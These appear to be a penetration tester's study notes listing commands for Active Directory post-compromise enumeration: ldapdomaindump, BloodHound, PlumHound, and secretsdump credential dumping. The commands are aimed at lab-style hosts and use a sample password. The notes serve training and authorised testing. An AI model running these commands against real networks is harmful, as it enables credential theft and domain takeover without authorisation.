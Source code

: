 
![[Pasted image 20241110192337.png]]

```
Domain Enumeration with 

- [ ] ldapdomaindump 
- [ ] Bloodhound 
- [ ] Domain Enumeration with Plumhound 
- [ ] Domain Enumeration with PingCastle 
```



<h2>Post-Compromise Enumeration</h2>


- [ ] ldapdomaindump
```
ldapdomaindump ldaps://10.10.10.182 -u 'Cascade.local\ArkSvc' -p 'w3lc0meFr31nd'
```

```
ldapdomaindump ldaps://<Domain_IP> -u 'Marvel\fcastle' -p 'w3lc0meFr31nd' -o <directory_name>
```



- [ ] BloodHound
```
bloodhound-python -d Cascade.local -u ArkSvc -p 'w3lc0meFr31nd' -ns 10.10.10.182  -c all 
```



Neo4j
```
neo4j console
```



- [ ] Plumhound
```
git clone https://github.com/PlumHound/PlumHound.git
cd PlumHound
pip3 install -r requirements.txt
```

```
python3 PlumHound.py --easy -p password
```

```
python3 Plumhound.py -x tasks/default.tasks -p password
```
Open the index.html

- [ ] secretsdump

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```


- [ ] PlumHound

- [ ] PingCastle
- [ ] 